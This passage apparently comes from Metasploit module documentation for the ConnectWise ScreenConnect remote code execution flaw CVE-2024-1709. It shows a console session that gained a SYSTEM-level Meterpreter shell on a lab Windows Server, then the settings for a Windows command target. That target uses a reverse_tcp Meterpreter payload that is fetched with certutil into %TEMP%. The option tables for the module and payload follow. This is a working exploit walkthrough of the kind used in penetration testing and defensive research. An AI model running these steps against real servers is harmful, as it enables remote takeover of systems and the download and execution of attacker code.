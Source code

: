 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.86.50 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Windows Command
Note: The `FETCH_WRITABLE_DIR` should be set to a suitable value like `%TEMP%`.

```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 1
target => 1
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR %TEMP%
FETCH_WRITABLE_DIR => %TEMP%
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      qawpczANW        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port

```